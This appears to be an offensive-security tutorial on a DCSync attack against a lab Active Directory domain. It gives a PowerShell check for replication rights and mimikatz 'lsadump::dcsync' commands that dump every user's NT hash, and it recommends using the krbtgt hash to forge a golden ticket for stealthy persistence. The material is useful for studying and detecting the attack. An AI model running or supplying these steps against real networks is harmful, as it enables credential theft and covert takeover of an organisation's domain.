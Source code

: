 # Using DCSync attack to steal user hashes in a domain

- Domain: based.local

To perform the **DCSync** attack, you have to have the following permissions over the domain

The initial foothold must be against a domain account with domain replication privileges; the **Directory Replication Service Remote Protocol** (MS-DRSR); **MS-DRSR** is a legitimate Active **Directory service** that `cannot` be disabled.

![Untitled.png](Using%20DCSync%20attack%20to%20steal%20user%20hashes%20in%20a%20domain/Untitled.png)

# Checking permissions

By default these privileges are limited to the: `domain administrators`, `enterprise administrators`, `administrators`, and `domain controller` groups. However, in certain cases, ordinary domain owners may have the needed permissions to **launch a DCSync attack**. Those roles have replication permissions that include the following rights that enable a DCSync attack: **Replicating Directory Changes, Replicating Directory Changes All, and Replicating Directory Changes In Filtered Set (optional)**

Some apps really need these permissions to replicate users in a domain, reason you might see groups or users with these permissions.

`Replicating Directory Changes In Filtered Set is an optional Permission`

You can check this using PowerShell

## Powershell

![Untitled%201.png](Using%20DCSync%20attack%20to%20steal%20user%20hashes%20in%20a%20domain/Untitled%201.png)

```jsx
(Get-Acl "ad:\dc=based,dc=local").Access | ? {$_.IdentityReference -match 'thereplicator' -and ($_.ObjectType -eq "1131f6aa-9c07-11d1-f79f-00c04fc2dcd2" -or $_.ObjectType -eq "1131f6ad-9c07-11d1-f79f-00c04fc2dcd2" -or $_.ObjectType -eq "89e95b76-444d-4c62-991a-0facbeda640c" ) }
```

## Command breakdown

1. `(Get-Acl "ad:\dc=based,dc=local").Access` - Grab every permission over the [based.local](http://based.local) domain objects
2. `(Get-Acl "ad:\dc=based,dc=local").Access | ? {$_.IdentityReference -match 'thereplicator'}`  - Grab every permission **thereplicator** user has over the domain objects
3. `(Get-Acl "ad:\dc=based,dc=local").Access | ? {$_.IdentityReference -match 'thereplicator' -and ($_.ObjectType -eq "1131f6aa-9c07-11d1-f79f-00c04fc2dcd2" -or $_.ObjectType -eq "1131f6ad-9c07-11d1-f79f-00c04fc2dcd2" -or $_.ObjectType -eq "89e95b76-444d-4c62-991a-0facbeda640c" ) }` - We've added more checks to previous command to only grab the required permissions for our attack, which are: **Replicating Directory Changes In Filtered Se**t, **Replicating Directory Changes All**, **Replicating Directory Changes** **(optional)**

# Performing the attack itself

We are going to use mimikatz

```jsx
lsadump::dcsync /all /csv
```

This will dump the entire domain in csv format which will output username, RID and NT hash

![Untitled%202.png](Using%20DCSync%20attack%20to%20steal%20user%20hashes%20in%20a%20domain/Untitled%202.png)

You could also specify the domain like

```jsx
lsadump::dcsync /all /csv /domain:based.local
```

# What to do futher?

Well, you could use the Administrator NT Hash but that would not be very stealthy, instead you could use krbtgt's NT Hash to create a golden ticket which is much more stealthier.

# How does the attack work?

The DCSync command in Mimikatz allows an attacker to pretend to be a domain controller and retrieve password hashes from other domain controllers, without executing any code on the target. It does so over the MS-DRSR protocol via the DSGetNCChanges method that replicates updates from a naming context (NC) replica on the server.
